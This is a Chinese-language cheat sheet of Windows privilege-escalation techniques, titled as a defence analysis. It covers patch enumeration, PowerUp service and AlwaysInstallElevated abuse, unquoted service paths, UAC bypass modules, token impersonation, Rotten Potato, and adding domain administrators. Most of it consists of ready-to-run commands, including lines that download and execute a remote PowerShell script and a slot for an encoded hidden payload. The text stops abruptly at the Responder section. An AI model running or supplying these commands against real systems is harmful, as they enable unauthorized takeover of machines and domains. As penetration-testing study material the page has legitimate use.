

# 权限提升防御分析

# [](#%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E9%98%B2%E5%BE%A1%E5%88%86%E6%9E%90)权限提升防御分析

## [](#%E7%B3%BB%E7%BB%9F%E5%86%85%E6%A0%B8%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E6%8F%90%E6%9D%83)系统内核溢出漏洞提权

### [](#%E6%89%8B%E5%8A%A8%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4%E5%8F%91%E7%8E%B0%E7%BC%BA%E5%A4%B1%E8%A1%A5%E4%B8%81)手动执行命令发现缺失补丁

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>systeminfo<br>wmic qfe get Caption,Description,HotfixID,InstalledOn<br>``` |

发现补丁编号

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>wmic qfe get Caption,Description,HotfixID,InstalledOn \| findstr C:"KB3143141" C:/"KB976902"<br>``` |

### [](#windows-exploit-suggester)Windows Exploit Suggester

使用 `systeminfo` 命令获取当前系统的补丁安装状况，并将信息导入 `patches.txt` 文件中

1.  更新补丁信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python windows-exploit-suggester.py --update<br>``` |

2.  检查漏洞

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python windows-exploit-suggester.py -d 2019-02-02-mssb.xls -i patches.txt<br>``` |

`Metasploit` 内置 `local_exploit_suggester` 模块

### [](#powershell-%E4%B8%AD%E7%9A%84-sherlock-%E8%84%9A%E6%9C%AC)powershell 中的 sherlock 脚本

[https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>import-module .\Sherlock.ps1<br>Find-AllVulns<br>``` |

[https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

## [](#windows-%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF%E5%88%A9%E7%94%A8)Windows 配置错误利用

### [](#%E7%B3%BB%E7%BB%9F%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF)系统服务权限配置错误

#### [](#powerup)powerup

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -Command "&{Import-Module .\PowerUP.ps1;Invoke-AllChecks}"<br>``` |

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Invoke-AllChecks"<br>``` |



#### [](#metasploit-%E4%B8%8B%E7%9A%84%E5%88%A9%E7%94%A8)metasploit 下的利用

对应模块 `service_permissions`。

### [](#%E6%B3%A8%E5%86%8C%E8%A1%A8%E9%94%AE-alwaysinstallelevated)注册表键 AlwaysInstallElevated

`AlwaysInstallElevated` 是一个策略设置。微软允许非授权用户以 `SYSTEM` 权限运行安装文件 (MSI)，如果用户启用此策略设置，那么黑客利用恶意的 `MSI` 文件就可以进行管理员权限的提升。假设我们拿到目标主机的 `Meterpreter` 会话后并没能通过一些常规方式取得 `SYSTEM` 权限，那么 `AlwaysInstallElevated` 提权可以给我们带来另一条思路。

-   手动检测注册表：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>``` |

如果值均为 `1`，说明存在风险

-   PowerUp 脚本

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Get-RegistryAlwaysInstallElevated"<br>``` |

添加账户

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Write-UserAddMSI<br>``` |

以普通用户运行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>msiexec /q /i UserAdd.smi<br>``` |

也可以利用 `msf` 中的 `always_install_elevated` 模块

### [](#%E5%8F%AF%E4%BF%A1%E4%BB%BB%E6%9C%8D%E5%8A%A1%E8%B7%AF%E5%BE%84%E6%BC%8F%E6%B4%9E)可信任服务路径漏洞

#### [](#metasploit-%E4%B8%8B%E7%9A%84%E5%88%A9%E7%94%A8-1)metasploit 下的利用

-   检测目标机器是否存在漏洞

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>wmic service get name,displayname,pathname,startmode\|findstr /i "Auto" \| findstr /i /v "C:\Windows\\"\|findstr /i /v """<br>``` |

-   把要上传的程序重命名并放置在此漏洞且可写的目录下，执行如下命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>sc stop service_name<br>sc start service_name<br>``` |

-   也可以使用 msf 中的 `Windows Service Trusted Path Privilege Escalation` 模块进行测试

`注意：` msf 要设置 `set AutoRunScript migrate -f` 防止掉线

### [](#%E8%87%AA%E5%8A%A8%E5%AE%89%E8%A3%85%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6)自动安装配置文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>dir /b /s c:\Unattend.xml<br>dir /b /s c:\sysprep.xml<br>``` |

查看文件中知否存在 `base64` 加密的密码

msf 中集成了该漏洞的利用模块 `post/windows/gather/enum_unattend`

### [](#%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)计划任务

#### [](#%E6%9F%A5%E7%9C%8B%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)查看计划任务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>schtasks /query /fo LIST /v<br>``` |

#### [](#%E6%9F%A5%E8%AF%A2%E5%8F%AF%E5%86%99%E7%9A%84%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1%E6%96%87%E4%BB%B6%E5%A4%B9)查询可写的计划任务文件夹

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>accesschk.exe -dqc "C:\Microsoft" -accepteula<br>``` |

#### [](#%E5%88%97%E5%87%BA%E6%9F%90%E4%B8%AA%E9%A9%B1%E5%8A%A8%E5%99%A8%E4%B8%8B%E6%89%80%E6%9C%89%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E6%9C%89%E7%BC%BA%E9%99%B7%E7%9A%84%E6%96%87%E4%BB%B6%E5%A4%B9)列出某个驱动器下所有权限配置有缺陷的文件夹

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>accesschk.exe -uwdqsUsersc:\<br>accesschk.exe -uwdqs"AuthenticatedUsers"c:\<br>``` |

#### [](#%E5%88%97%E5%87%BA%E6%9F%90%E4%B8%AA%E9%A9%B1%E5%8A%A8%E5%99%A8%E4%B8%8B%E6%89%80%E6%9C%89%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E6%9C%89%E7%BC%BA%E9%99%B7%E7%9A%84%E6%96%87%E4%BB%B6)列出某个驱动器下所有权限配置有缺陷的文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>accesschk.exe -uwdqsUsersc:\*.*<br>accesschk.exe -uwdqs"AuthenticatedUsers"c:\*.*<br>``` |

### [](#empire-%E5%86%85%E7%BD%AE%E6%A8%A1%E5%9D%97)Empire 内置模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>usermode privesc/powerup/xxxx<br>``` |

## [](#%E7%BB%95%E8%BF%87-uac-%E6%8F%90%E6%9D%83)绕过 UAC 提权

### [](#bypassuac-%E6%A8%A1%E5%9D%97)bypassuac 模块

前提：当前用户必须在管理员组中

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```fallback<br>exploit/windows/local/bypassuac<br>exploit/windows/local/bypassuac_inject<br>getsystem<br>``` |

### [](#runas-%E6%A8%A1%E5%9D%97)RunAs 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>exploit/windows/local/ask<br>``` |

弹出一个 UAC 框，用户点击后会弹回一个高权限的 shell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>getuid 查看权限，如果是普通用户权限，执行 getsystem 提权<br>``` |

### [](#nishang-%E4%B8%AD%E7%9A%84-invoke-psuacme-%E6%A8%A1%E5%9D%97)Nishang 中的 Invoke-PsUACme 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```cmd<br>Invoke-PsUACme -Verbose ## 使用Sysprep方法并执行默认的Payload<br>Invoke-PsUACme -method oobe -Verbose ## 使用oobe方法方法并执行默认的Payload<br>Invoke-PsUACme -Payload "powershell -windowstyle hidden -e YourEncodedPayload"<br>## 使用-Payload参数，可以自行指定要执行的Payload<br>``` |

### [](#empire-%E4%B8%AD%E7%9A%84-bypassuac-%E6%A8%A1%E5%9D%97)Empire 中的 bypassuac 模块

#### [](#bypassuac-%E6%A8%A1%E5%9D%97-1)bypassuac 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>usemode privesc/bypassuac<br>execute<br>``` |

#### [](#bypassuac_wscript-%E6%A8%A1%E5%9D%97)bypassuac\_wscript 模块

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>usemode privesc/bypassuac_wscript<br>execute<br>``` |

## [](#%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96)令牌窃取

### [](#msf-%E4%B8%8A%E7%9A%84%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96)msf 上的令牌窃取

假设已经获取了 meterpreter shell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>use incognito<br>list_tokens -u<br>``` |

在 `incognito` 中调用 `impersonate_token`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>impersonate_token DESKTOP-DUNPKQ9\\Administrator<br>``` |

`注意`：在输入主机名 `\` 用户名时，需要输入两个反斜杠

### [](#rotten-potato-%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83)Rotten Potato 本地提权

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>use incognito<br>list_tokens -u<br>execute -HC -f rottenpotato.exe<br>impersonate_token "NT AUTHORITY\\SYSTEM"<br>``` |

### [](#%E6%B7%BB%E5%8A%A0%E5%9F%9F%E7%AE%A1%E7%90%86%E5%91%98)添加域管理员

假设网络中设置了域管进程，在 `meterpreter shell` 中迁移进程至域管进程中

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>net user test test123!@# /ad /domain<br>net group "domain admins" test /ad /domain<br>``` |

同样，在 `meterpreter shell` 中可以使用 `incognito` 来模拟域管理员，然后通过迭代系统中所有可用的身份验证令牌来添加域管理员。

在活动的 `meterpreter shell` 中执行如下命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>add_user test test!@#123 -h 1.1.1.2<br>``` |

执行如下命令，将该账户加到域管理员组中。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>add_user "Domain Admins" test -h 1.1.1.2<br>``` |

### [](#empire-%E4%B8%8B%E7%9A%84%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96%E5%88%86%E6%9E%90)Empire 下的令牌窃取分析

运行 `mimikatz`，输入 `creds`

执行：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>pth CredID<br>``` |

## [](#%E6%97%A0%E5%87%AD%E8%AF%81%E4%B8%8B%E7%9A%84%E6%9D%83%E9%99%90%E8%8E%B7%E5%8F%96)无凭证下的权限获取

### [](#llmnr-%E5%92%8C-netbios-%E6%AC%BA%E9%AA%97%E6%94%BB%E5%87%BB)LLMNR 和 NetBIOS 欺骗攻击

#### [](#responder-%E5%B7%A5%E5%85%B7)Responder 工具

开启监听模式
